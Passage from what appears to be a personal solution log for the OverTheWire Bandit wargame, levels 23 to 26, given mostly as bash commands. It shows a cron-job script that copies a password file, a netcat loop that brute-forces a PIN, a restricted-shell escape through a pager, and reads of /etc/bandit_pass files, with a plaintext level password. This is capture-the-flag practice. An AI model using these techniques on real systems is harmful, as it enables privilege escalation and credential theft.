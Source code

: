 ```bash
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
cat > /var/spool/bandit24/foo/passscript.sh << 'EOF'
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/pass_bandit24_$(whoami).txt
EOF
chmod +x /var/spool/bandit24/foo/passscript.sh
cat /tmp/pass_bandit24_bandit24.txt
```

---

## Level 24

**Date:** 19/08/2025

```bash
#!/bin/bash
coproc nc localhost 30002
for i in $(seq 0 9999); do
  echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i" >&"${COPROC[1]}"
  read -r reply <&"${COPROC[0]}"
  if [[ ! $reply == *"Wrong"* ]]; then
    echo "$i : $reply"
  fi
done
```

---

## Level 25

**Date:** 19/08/2025

```bash
ssh -i bandit26.sshkey -p 2220 bandit26@localhost
cat /etc/passwd | grep bandit26
# resize terminal to very small
ssh -i bandit26.sshkey -p 2220 bandit26@localhost
# start v and use command :set shell=/bin/bash, :shell
cat /etc/bandit_pass/bandit26
```

---

## Level 26

**Date:** 19/08/2025

```bash
./bandit27-do cat /etc/bandit_pass/bandit27
```

---
